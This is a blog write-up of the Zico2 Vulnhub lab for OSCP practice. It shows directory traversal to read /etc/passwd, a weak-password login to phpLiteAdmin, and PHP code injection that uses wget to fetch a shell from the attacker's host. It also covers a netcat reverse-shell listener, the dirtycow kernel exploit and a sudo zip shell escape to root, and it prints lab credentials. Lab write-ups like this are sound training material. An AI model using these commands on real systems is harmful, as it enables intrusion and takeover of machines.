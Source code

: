 
---
published: true
---

Vulnhub virtual machine; One of the last of my vulnhub boxes from the OSCP prep list. Zico2, used enumeration to find an admin login, which used basic credentials to enter. Used the backend to use php to download a reverse shell which led to privesc with dirtycow and zip.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Search for VM on network

    netdiscover -r 192.168.56.0/24

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255581402_image.png)


Target: 192.168.56.122


# Enumeration 

Nmap Scan:

    nmap -sV -sC -oA nmap/zico2.nmap 192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255688088_image.png)


Interesting Ports:
80 - webserver
111 - unknown at this point
22 - ssh (front door)

Investigate port 80

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255777091_image.png)


checking out source:


![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255897525_image.png)


*nothing of immediate interest.*

navigating around site page is based off a php backend which could be of use in the future for a reverse php shell.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255978376_image.png)


Test for directory traversal with an escape

    http://192.168.56.122/view.php?page=../../../../../../etc/passwd

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256606045_image.png)


now we have an idea of users. Saved the passwd locally to folder and parsed for just user that have the ability to use sh.

    cat passwd | grep /bin/.*sh > sh.userlist

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256885725_image.png)


*at the end just appened the users to sh.userlist*




## Gobuster
    gobuster -u 192.168.56.122 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256116071_image.png)


`/dbadmin/` accessible:

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256991977_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257027322_image.png)


we found a web application name and version number along with a password field.
testing generic passwords

    password
    zico
    admin


Password: Admin # Lets take a second and talk about how this is a terrible password.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257822213_image.png)


*“were in!”* 


Investgate the `/usr/databases/test_users` click the info button

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258630237_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258642957_image.png)


looks like MD5 hashes - decrypted with https://www.md5online.org/md5-decrypt.html

    root: 34kroot34
    zico: zico2215@

quick attempt to SSH using credentials — No-Go 


## searchsploit
    searchsploit phpliteadmin

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257628716_image.png)


mirror `24044.txt`

    searchploit -m exploits/php/webapps/24044.txt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257699428_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257876972_image.png)


Looks like we can create a new database and move to upload a reverse shell.


created a database name `execwashere.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259143852_image.png)


create table named `gimmeshell` with Number of Fields: `1`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259266747_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259447971_image.png)


used `test` for the name, selected `TEXT` and inserted the default value  `<?php phphinfo(); ?>`

navigated to location of execwashere.php

    http://192.168.56.122/view.php?page=../../../usr/databases/execwashere.php

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259657390_image.png)


Lets go input a reverse php shell since we know we can access `/usr/databases` by creating a new database named `test.php`

    <?php system("cd /usr/databases/; wget http://192.168.56.102:8000/phpshell.php"); ?>

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323507878_image.png)



launch our reverse shell via `phpshell.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318152692_image.png)


Setup Listener

    nc -lvnp 9000
![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555320772957_image.png)



## dirtycow

uname inspect

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318538227_image.png)


This version is [dirtycow](https://dirtycow.ninja/) susceptible.

download the dirty.c exploit from https://www.exploit-db.com/exploits/40839
setup up webserver and wget from box

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321891441_image.png)

    wget http://192.168.56.102:8000/dirty.c

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321869991_image.png)


Compile

    gcc -pthread dirty.c -o dirty -lcrypt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322047103_image.png)



----------
# Priv-Esc

navigate `/home/zico/` discovered `wordpress` and `wp-config.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318229977_image.png)


we now found credentials for zico

    zico:sWfCsfJSPV9H3AmQzw8

attempt SSH with credentials:

    ssh zico@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318341067_image.png)


check permissions:

    sudo -l

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323321433_image.png)

# Root&Loot

Taking advantage of `zip` to elevate to root

    sudo zip /tmp/test.zip /home/zico/wordpress -T --unzip-command="sh -c /bin/bash"

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323397092_image.png)


connect to dirtycow’d SSH

    ssh firefart@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322182994_image.png)



“Bring me the root” -exec

